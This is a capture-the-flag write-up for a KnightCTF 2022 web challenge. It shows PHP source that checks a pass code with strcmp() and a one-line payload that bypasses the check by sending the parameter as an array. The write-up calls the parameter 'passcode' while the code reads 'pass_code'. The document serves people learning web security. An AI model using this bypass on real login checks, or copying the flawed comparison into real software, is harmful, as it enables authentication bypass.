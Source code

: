 # Kinght CTF - Find Pass Code - 1

View source-code, we found a comment:
```
Hi Serafin, I learned something new today. 
I build this website for you to verify our KnightCTF 2022 pass code. You can view the source code by sending the source param
```
Ok, let's try that:  `http://159.223.166.39:9000/?source=`

We got backend source-code:
```php
<?php
require "flag.php";
if (isset($_POST["pass_code"])) {
    if (strcmp($_POST["pass_code"], $flag) == 0) {
        echo "KCTF Flag : {$flag}";
    } else {
        echo "Oh....My....God. You entered the wrong pass code.<br>";
    }
}
if (isset($_GET["source"])) {
    print show_source(__FILE__);
}

?>
```
PHP `strcmp()` function, typical huh!
This function return 0 when 2 string compare equal(case-sensitive) but this function is really easy to bypass, if argument is an array instead of a string, strcmp() will return and error/false which equal to 0.

**payload**: In POST requests we edit the paramter `passcode` to: `passcode[]=1`

**Result**:
*Warning*: strcmp() expects parameter 1 to be string, array given in /var/www/html/index.php on line 4

**KCTF Flag** : `KCTF{ShOuLd_We_UsE_sTrCmP_lIkE_tHaT}`
